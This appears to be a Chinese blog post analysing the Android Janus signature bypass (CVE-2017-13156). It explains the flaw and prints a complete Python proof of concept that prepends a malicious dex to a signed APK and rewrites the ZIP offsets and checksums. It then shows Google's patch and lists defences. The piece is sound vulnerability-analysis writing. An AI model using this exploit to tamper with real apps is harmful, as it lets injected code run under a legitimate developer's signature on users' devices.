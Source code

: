 ```yaml
---
title: Janus签名漏洞(CVE-2017-13156)原理与利用分析
date: 2018-10-05 09:49:25
tags: Android漏洞
categories: 
	- Android安全
	- 漏洞分析
---
```


## 0x00 简介
前言:去年比较严重的洞,以比较浅显的方式学习记录一下，网上有很多其他深度分析文章，也可借鉴学习。

Janus签名漏洞可以让攻击者绕过安卓系统的signature scheme V1签名机制，进而直接对App进行篡改。而且由于安卓系统的其他安全机制也是建立在签名和校验基础之上，该漏洞相当于绕过了安卓系统的整个安全机制。

* 公告详情: 
![https://source.android.com/security/bulletin/2017-12-01]()
* 影响: 利用该漏洞的攻击者可注入恶意代码直接修改app而不影响其原始签名,即修改后仍是官方签名
* 影响范围: Android 5.0-8.0且使用Signaturescheme V1签名的APK文件,不影响Signaturescheme V2
* 自测: adb shell dumpsys package pkgName | grep apkSigningVersion

<!-- more -->


## 0x01 漏洞原理
1. Android在4.4引入ART虚拟机，相比较于Dalvik虚拟机仅能运行包装于apk中的dex文件，ART还允许直接运行优化后的dex文件。具体操作是通过读取**文件头部**的magic字段进行判断，区别执行apk或者dex。

1. ZIP文件的读取方式是读取**文件末尾**定位的central directory, 然后通过里面的索引定位到各个zip entry，每个entry解压之后都对应一个文件。ParseZipArchive()函数在进行以上处理时候并没有判断文件头部的magic字段是否为504B0304(即Zip).

![图片来自阿里聚安全](https://epo.alicdn.com/image/46c2mtm4lfj0.png)


因此根据以上两点,攻击者可以通过将恶意dex文件置于apk文件的头部(如上图所示),在系统安装apk文件时，系统安装器解压zip时并没有先判断apk文件的头部magic字段，直接默认是apk(zip)文件，从而直接从文件尾部进行读取解压，此时签名没有任何变化，因此可欺骗系统，从而进行安装。

攻击关键点是当用户点击运行apk时，系统ART虚拟机会去判断文件头部的magic字段，从而使用不同的策略执行文件，由于该apk文件头部被修改为恶意dex，因此art虚拟机直接执行恶意dex文件。

## 0x02 漏洞利用
漏洞利用[PoC](https://github.com/V-E-O/PoC/blob/master/CVE-2017-13156/janus.py):

``` python
#!/usr/bin/python

import sys
import struct
import hashlib
from zlib import adler32

def update_checksum(data):
    '''
    生成sha1 hash 
    "<L" 小端存储unsigned long
    '''
    m = hashlib.sha1()
    m.update(data[32:])
    data[12:12+20] = m.digest()
	
	#计算Adler-32 checksum
    v = adler32(buffer(data[12:])) & 0xffffffff 
    data[8:12] = struct.pack("<L", v)

def main():
    if len(sys.argv) != 4:
        print("usage: %s dex apk out_apk" % __file__)
        return

    _, dex, apk, out_apk = sys.argv

    #读取dex二进制数据
    with open(dex, 'rb') as f:
        dex_data = bytearray(f.read())
    dex_size = len(dex_data)

    #操作zip文件,可学习一下zip文件格式
    with open(apk, 'rb') as f:
        apk_data = bytearray(f.read())
    cd_end_addr = apk_data.rfind('\x50\x4b\x05\x06') 
    
    #central directory 起始地址
    cd_start_addr = struct.unpack("<L", apk_data[cd_end_addr+16:cd_end_addr+20])[0]
    apk_data[cd_end_addr+16:cd_end_addr+20] = struct.pack("<L", cd_start_addr+dex_size)

    pos = cd_start_addr
    while (pos < cd_end_addr):
        offset = struct.unpack("<L", apk_data[pos+42:pos+46])[0]
        apk_data[pos+42:pos+46] = struct.pack("<L", offset+dex_size)
        pos = apk_data.find("\x50\x4b\x01\x02", pos+46, cd_end_addr)
        if pos == -1:
            break

    #注入dex_data
    out_data = dex_data + apk_data
    out_data[32:36] = struct.pack("<L", len(out_data))
    update_checksum(out_data)

    with open(out_apk, "wb") as f:
        f.write(out_data)

    print ('%s generated' % out_apk)


if __name__ == '__main__':
    main()
```

##0x03 漏洞防御
谷歌官方修复[diff](https://android.googlesource.com/platform/system/core/+/9dced1626219d47c75a9d37156ed7baeef8f6403%5E%21/#F0):

``` c++
diff --git a/libziparchive/zip_archive.cc b/libziparchive/zip_archive.cc
index 78de40a..d0bbd72 100644
--- a/libziparchive/zip_archive.cc
+++ b/libziparchive/zip_archive.cc

@@ -441,6 +441,22 @@
       return -1;
     }
   }
+
+  uint32_t lfh_start_bytes;
+  //读取zip头部信息
+  if (!archive->mapped_zip.ReadAtOffset(reinterpret_cast<uint8_t*>(&lfh_start_bytes),
+                                        sizeof(uint32_t), 0)) {
+    ALOGW("Zip: Unable to read header for entry at offset == 0.");
+    return -1;
+  }
+
   //增加kSignature头部验证，不同时返回-1
+  if (lfh_start_bytes != LocalFileHeader::kSignature) {
+    ALOGW("Zip: Entry at offset zero has invalid LFH signature %" PRIx32, lfh_start_bytes);
+  #if defined(__ANDROID__)
+    android_errorWriteLog(0x534e4554, "64211847");
+  #endif
+    return -1;
+  }
+
   ALOGV("+++ zip good scan %" PRIu16 " entries", num_entries);
 
   return 0;

```
在解压zip文件时,调用函数ReadAtOffset()读取offset=0的magic字段是否为[LocalFileHeader::kSignature](https://android.googlesource.com/platform/system/core/+/9dced1626219d47c75a9d37156ed7baeef8f6403/libziparchive/zip_archive_common.h)(即0x04034b50)

防御:

* 使用Signaturescheme V2签名
* 前往官方网站下载正版应用或到阿里PP助手下载安全应用

## 0x04 参考
[New Android vulnerability allows attackers to modify apps without affecting their signatures](https://www.guardsquare.com/en/blog/new-android-vulnerability-allows-attackers-modify-apps-without-affecting-their-signatures)

[Janus漏洞（CVE-2017-13156）: 修改安卓app而不影响签名](https://jaq.alibaba.com/community/art/show?articleid=1261)

[安卓“Janus”漏洞的产生原理及利用过程](http://www.freebuf.com/articles/terminal/156862.html)

[ZIP文件格式分析](http://blog.csdn.net/a200710716/article/details/51644421)

